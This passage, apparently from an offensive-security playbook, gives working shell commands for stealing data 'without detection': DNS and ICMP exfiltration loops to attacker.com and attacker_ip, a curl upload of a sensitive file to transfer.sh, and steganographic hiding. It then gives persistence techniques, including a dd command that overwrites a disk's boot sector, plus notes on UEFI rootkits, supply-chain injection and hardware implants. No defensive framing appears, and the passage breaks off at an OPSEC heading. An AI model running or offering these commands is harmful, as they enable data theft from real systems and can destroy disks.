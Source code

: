 ### Covert Data Extraction
**Objective**: Extract sensitive data without detection

**Techniques**:
```bash
# 1. DNS exfiltration
for chunk in $(cat sensitive_data.txt | base64 | fold -w 32); do
    dig $chunk.attacker.com
    sleep 1
done

# 2. ICMP exfiltration
xxd -p -c 16 sensitive_data.txt | while read line; do
    ping -c 1 -p $line attacker_ip
done

# 3. Steganography
steghide embed -cf cover_image.jpg -ef secret_data.txt -p password
exiftool -Comment="hidden_data" image.jpg

# 4. Cloud storage abuse
# Upload to legitimate cloud services
curl -X POST -F "file=@sensitive_data.txt" https://transfer.sh
```

## Advanced Persistence Mechanisms

### Long-term Access Maintenance
**Objective**: Maintain persistent access across system reboots and updates

**Techniques**:
```bash
# 1. Bootkit installation
# Modify boot sector for persistent access
dd if=malicious_bootloader of=/dev/sda bs=512 count=1

# 2. UEFI rootkit
# Compromise UEFI firmware for ultimate persistence
# Requires advanced knowledge of firmware modification

# 3. Supply chain attacks
# Compromise software update mechanisms
# Inject malicious code into legitimate software updates

# 4. Hardware implants
# Physical modification of target hardware
# Network taps and hardware keyloggers
```

## Operational Security (OPSEC)
